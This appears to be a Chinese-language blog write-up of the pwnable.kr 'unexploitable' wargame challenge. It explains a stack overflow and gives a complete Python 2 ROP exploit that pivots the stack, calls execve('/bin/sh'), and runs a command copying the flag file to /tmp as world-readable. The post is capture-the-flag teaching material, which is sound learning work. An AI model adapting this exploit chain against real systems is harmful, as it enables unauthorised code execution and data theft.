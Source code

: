 ```yaml
---
title: unexploitable
author: rk700
layout: post
categories:
  - writeup
tags:
  - exploit
  - pwnable.kr
---
```


这次是500分的rop

{% highlight c %}
#include <stdio.h>
void main(){
        printf("Not all the bugs are exploitable.\n");
        printf("Try to exploit this one and you will see.\n");
        printf("Or.. maybe you can prove otherwise :)\n");

        // exploit me
        int buf[4];
        read(0, buf, 1295);
}
{% endhighlight %}

溢出很明显。但单看C代码，信息量太小，必须看汇编。

由于开了NX和ASLR，只能ROP了。由于在`0x40056f`处有`syscall`，所以我的思路是执行`execve("/bin/sh",["/bin/sh",NULL],...)`

具体地，我跳了好几次

1. 溢出，返回再次`read`，而且把`rbp`设到可写的`0x601xxx`那里；
2. 由于`rbp`在`data`段，这次的`read`，可以确定所写东西的地址。我们把第3次用到的栈上的数据写到这里。由于上次的`rbp`可控，当执行完`read`到`leave;ret`时 ，我们让他跳到第3次`read`
3. 这次是将字符串`/bin/sh`和地址写到固定地址。这样就把`execve`的参数准备好了。这次结束后，返回到`0x4005f6`
4. 通过一系列`mov ...`，把各个寄存器的值设好。然后返回`0x4005e0`
5. 这里就通过设`rdx`等寄存器，`call qword [r12+rbx*8]`来执行最终的`execve`

大体思路就是这样。然后比较麻烦的是，我不知道怎么与他交互……pwntool用不了，python还是不熟……于是最后用的是将flag文件拷贝一份为可读的……

下面是代码

{% highlight python %}
#!/usr/bin/env python2

from struct import *
import subprocess
import time

sh = "/bin/sh\x00"
cmd = "install -m666 /home/unexploitable/flag /tmp/flag1\n"

data1 = 0x601100
data2 = 0x601200

payload1 = "A"*0x10
payload1 += pack("<Q", data1+0x10) #saved rbp
payload1 += pack("<Q", 0x40056a) #ret addr: ...; read

#data1
payload2 = "B"*0x10
payload2 += pack("<Q", data2+0x10) #saved rbp
payload2 += pack("<Q", 0x40056a) #ret addr: ...; read
payload2 += "B"*0x8
payload2 += pack("<Q", 0x4005f6)#ret addr: mov reg ...
payload2 += pack("<Q", 0x40056f) #0f05 syscall
payload2 += pack("<Q", 0)#rbx
payload2 += pack("<Q", 0)#rbp
payload2 += pack("<Q", data1+0x10+0x8+0x8+0x8+0x8)#r12
payload2 += pack("<Q", data2+0x10+0x8+0x8)#r13 -> edi -> '/bin/sh'
payload2 += pack("<Q", data2+0x10+0x8+0x8+len(sh))#r14 -> rsi -> argv
payload2 += pack("<Q", data2+0x10+0x8+0x8+len(sh))#r15 -> rdx -> envp
payload2 += pack("<Q", 0x4005e0) #ret addr: mov r13 edi; ...

#data2
payload3 = "C"*0x10
payload3 += pack("<Q", data1+0x20) #saved rbp
payload3 += pack("<Q", 0x400585)#ret addr: leave; ret
payload3 += sh
payload3 += pack("<Q", data2+0x10+0x8+0x8)
payload3 += pack("<Q", 0)
payload3 += "C"*(0x3b-0x10-0x8-0x8-len(sh)-0x8-0x8)


exe = subprocess.Popen(["/home/unexploitable/unexploitable"],stdin=subprocess.PIPE)
exe.stdin.write(payload1)
time.sleep(1)
exe.stdin.write(payload2)
time.sleep(1)
exe.stdin.write(payload3)
time.sleep(1)
print "======="
exe.stdin.write(cmd)
{% endhighlight %}
